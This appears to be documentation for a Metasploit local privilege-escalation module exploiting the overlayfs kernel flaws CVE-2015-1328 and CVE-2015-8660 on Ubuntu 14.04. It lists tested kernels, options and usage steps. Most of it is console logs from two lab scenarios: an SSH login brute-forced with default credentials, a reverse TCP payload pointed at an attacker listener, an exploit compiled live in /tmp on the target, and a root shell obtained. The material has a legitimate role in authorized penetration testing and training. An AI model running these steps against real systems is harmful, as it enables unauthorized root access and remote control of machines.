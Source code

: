 ## Creating A Testing Environment

This module has been tested against:

  1. CVE-2015-1328
    1. Ubuntu 14.04
      1. 3.13.0-24 (binary version of exploit compiled on)
      2. 3.19.0-20
      3. 3.19.0-21 (not vuln, exploit failed)
      4. 3.13.0-55 (not vuln, exploit failed)
  2. CVE-2015-8660
    1. Ubuntu 14.04
      1. 3.19.0-41 (binary version of exploit compiled on)

Untested against

  1. Fedora (code included to identify vuln versions)
  2. Redhat (description includes vuln kernel versions)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/overlayfs_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

### COMPILE

  If we should attempt to compile on the system.  Defaults to Auto, which checks if `gcc` is installed

### WritableDir

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### CVE-2015-8660 against Ubuntu 14.04 with kernel 3.19.0-41

#### Initial Access

    resource (/root/Text-1.txt)> use auxiliary/scanner/ssh/ssh_login
    resource (/root/Text-1.txt)> set rhosts 192.168.2.156
    rhosts => 192.168.2.156
    resource (/root/Text-1.txt)> set username ubuntu
    username => ubuntu
    resource (/root/Text-1.txt)> set password ubuntu
    password => ubuntu
    resource (/root/Text-1.txt)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 3.19.0-41-generic #46~14.04.2-Ubuntu SMP Tue Dec 8 17:46:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:39027 -> 192.168.2.156:22) at 2016-10-04 22:48:44 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (/root/Text-1.txt)> use exploit/linux/local/overlayfs_priv_esc
    resource (/root/Text-1.txt)> set verbose true
    verbose => true
    resource (/root/Text-1.txt)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (/root/Text-1.txt)> set session 1
    session => 1
    resource (/root/Text-1.txt)> set target 1
    target => 1
    resource (/root/Text-1.txt)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (/root/Text-1.txt)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if mount points exist
    [+] /tmp/haxhax not created
    [+] Kernel 3.19.0.pre.41.pre.generic is vulnerable to CVE-2015-8660
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if mount points exist
    [+] /tmp/haxhax not created
    [+] Kernel 3.19.0.pre.41.pre.generic is vulnerable to CVE-2015-8660
    [*] Writing to /tmp/svF1U2Ya.c (2356 bytes)
    [*] Max line length is 65537
    [*] Writing 2356 bytes in 1 chunks of 8098 bytes (octal-encoded), using printf
    [*] Compiling /tmp/svF1U2Ya.c
    [*] Writing to /tmp/fHCJO1ex (155 bytes)
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Exploiting...
    [*] Sending stage (36 bytes) to 192.168.2.156
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.156:44823) at 2016-10-04 22:48:57 -0400
    [+] Deleted /tmp/svF1U2Ya.c
    [+] Deleted /tmp/fHCJO1ex
    
    3986817421
    viRVXKxRruOuDKwEBYAscFvJPPrtQbTO
    true
    zxrnfClHzgOcewXyEqQeEAcHsQmsEPtk
    cqdStYFUGluqJkpgfGAkPvcVgoKTtJlY
    EOzlAFTpQsoXMWIicFiKHxsVjjlFpspC
    true
    FgIyOJMyeREcjxpsbWkNDZNtuUGYmBtt
    omnusQCOqEdrUTbMLtDmXibhFAVQuTAz
    VPsVgFTxVwskShumsJkambKWMQhifDJi
    whoami
    root
    uname -a
    Linux Ubuntu14 3.19.0-41-generic #46~14.04.2-Ubuntu SMP Tue Dec 8 17:46:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

### CVE-2015-1328 against Ubuntu 14.04 with kernel 3.13.0-24

#### Initial Access

    resource (/root/Text-1.txt)> use auxiliary/scanner/ssh/ssh_login
    resource (/root/Text-1.txt)> set rhosts 192.168.2.156
    rhosts => 192.168.2.156
    resource (/root/Text-1.txt)> set username ubuntu
    username => ubuntu
    resource (/root/Text-1.txt)> set password ubuntu
    password => ubuntu
    resource (/root/Text-1.txt)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:42139 -> 192.168.2.156:22) at 2016-10-04 22:54:50 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (overlay.rc)> use exploit/linux/local/overlayfs_priv_esc
    resource (overlay.rc)> set verbose true
    verbose => true
    resource (overlay.rc)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (overlay.rc)> set target 0
    target => 0
    resource (overlay.rc)> set session 1
    session => 1
    resource (overlay.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (overlay.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if mount points exist
    [+] /tmp/ns_sploit not created
    [+] Kernel 3.13.0.pre.24.pre.generic is vulnerable to CVE-2015-1328
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if mount points exist
    [+] /tmp/ns_sploit not created
    [+] Kernel 3.13.0.pre.24.pre.generic is vulnerable to CVE-2015-1328
    [*] Writing to /tmp/JmK51Dpa.c (3714 bytes)
    [*] Max line length is 65537
    [*] Writing 3714 bytes in 1 chunks of 13319 bytes (octal-encoded), using printf
    [*] Writing to /tmp/ofs-lib.c (439 bytes)
    [*] Max line length is 65537
    [*] Writing 439 bytes in 1 chunks of 1563 bytes (octal-encoded), using printf
    [*] Compiling /tmp/JmK51Dpa.c
    [*] Writing to /tmp/R6TrMF7f (155 bytes)
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Exploiting...
    [*] Sending stage (36 bytes) to 192.168.2.156
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.156:35876) at 2016-10-14 11:26:49 -0400
    [!] Tried to delete /tmp/ofs-lib.c, unknown result
    [+] Deleted /tmp/JmK51Dpa
    
    2356964145
    psMfOJcKGKnafhAvALIeSFNegauafmux
    RHxxKeTrEKLTMmssPTZjlJvkpblZjWSH
    KWETRaFhNLLRkUbhRkRoflvdRdbJBPFP
    true
    ORoIgajQlzSvaciHEGqEvQZqLZMpJDjQ
    dTdIcyWRpQOpEHizUhOQkDVqQZaxQIFR
    UCINXsLPGwYDBqnRKbFyLFOzkbifFPiF
    sh: 0: can't access tty; job control turned off
    # # # whoami
    root
    # uname -a
    Linux Ubuntu14 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
